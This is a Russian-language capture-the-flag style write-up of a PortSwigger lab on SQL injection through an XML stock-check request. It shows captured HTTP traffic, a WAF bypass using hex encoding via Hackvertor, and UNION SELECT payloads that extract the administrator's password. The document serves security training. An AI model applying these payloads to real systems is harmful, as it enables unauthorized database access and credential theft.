 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-06-20
tags: [sqli, writeup, web]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding"
---
```


В лабе есть уязвимая к **SQL injection** проверка товара в магазине. В БД есть таблица `users`, которая содержит в себе списки зарегистрированных пользователей с их паролями. Для прохождения нужно получить доступ к личному кабинету администратора.

```
https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/
```

## Solution

Первым делом нужно найти уязвимый запрос. На странице товара есть кнопка `check stock`, при нажатии она отправляет запрос на сервер. Сам запрос выглядит так:

```http
POST /product/stock HTTP/2
Host: 0a870041040afc00b575af4f00f900e1.web-security-academy.net
Cookie: session=K3VtfuVea5xBSJ82exXvOubl0Ohs9Gb0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Можно заметить, что тело запроса содержит `XML` документ. В нем есть 2 значения: `productId` и `storeId`. Попробую подставить пейлоад в эти параметры:

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1';</storeId></stockCheck>
```

Мне пришел ответ с сообщением `Attack detected`:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

Скорее всего на сайте используется `WAF`. Для обхода попробую кодировать пейлод в `HEX` формат. Для этого `Burp Suite Academy` предлагает установить расширение [hackvertor](https://github.com/hackvertor/hackvertor/releases/tag/v1.8.10).

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/1.png){: height="200" .align-center}

Итак, попробую подобрать пейлоад для поля `storeId`:

```
1+1 - Ok
1+2 - Ok
1 UNION SELECT '1234'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

1234
953 units
```

Попробую получить пароль для пользователя `administrator` с помощью следующего пейлоада:

```
1 UNION SELECT password FROM users WHERE username = 'administrator'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

06g5dq8793lynap20w97
953 units
```

Проверю пароль:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/2.png){: height="200" .align-center}

Я в системе)
